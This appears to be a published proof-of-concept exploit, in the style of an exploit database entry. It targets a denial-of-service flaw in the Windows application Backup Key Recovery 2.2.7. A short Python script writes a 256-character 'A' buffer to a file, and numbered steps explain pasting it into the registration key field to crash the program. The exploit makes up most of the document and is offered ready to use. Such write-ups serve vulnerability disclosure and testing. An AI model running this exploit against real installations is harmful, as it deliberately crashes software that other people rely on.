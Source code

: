     # Exploit Title: Backup Key Recovery 2.2.7 - Denial of Service (PoC)
    # Date: 07/06/2021
    # Author: Erick Galindo
    # Vendor Homepage: http://www.nsauditor.com
    # Software http://www.nsauditor.com/downloads/backeyrecovery_setup.exe
    # Version: 2.2.7.0
    # Tested on: Windows 10 Pro x64 es

    # Proof of Concept:
    #1.- Copy printed "AAAAA..." string to clipboard!
    #2.- Open BackupKeyRecovery.exe
    #3.- Go to Register > Enter Registration Code...
    #4.- Write anything in 'Name' field
    #5.- Paste clipboard in 'Key' field
    #6.- Click on button -> Ok

    buffer = "\x41" * 256

    f = open ("poc.txt", "w")
    f.write(buffer)
    f.close()